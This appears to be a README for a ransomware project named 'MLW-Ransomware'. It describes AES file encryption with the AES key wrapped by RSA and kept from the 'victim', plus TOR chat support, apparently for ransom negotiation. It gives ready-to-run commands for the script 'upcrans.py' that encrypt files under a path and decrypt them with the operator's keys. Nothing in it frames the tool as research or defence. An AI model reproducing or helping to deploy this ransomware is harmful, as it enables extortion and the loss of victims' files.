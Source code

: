 # MLW-Ransomware
# Features
- Encrypt files using AES with random IV.
- RSA to encrypt AES key. Store key in victim system. 
- TOR chat support.

# How it Works
Encrypt files:
```
python upcrans.py --encrypt --path .
```

Decrypt files:
```
python upcrans.py --decrypt --AESkey KEY.txt --RSAkey KEYRSA.txt
```
Where AESkey is the path generated when files are encrypted and RSAkey is the private key of RSA that is stored in BBDD.


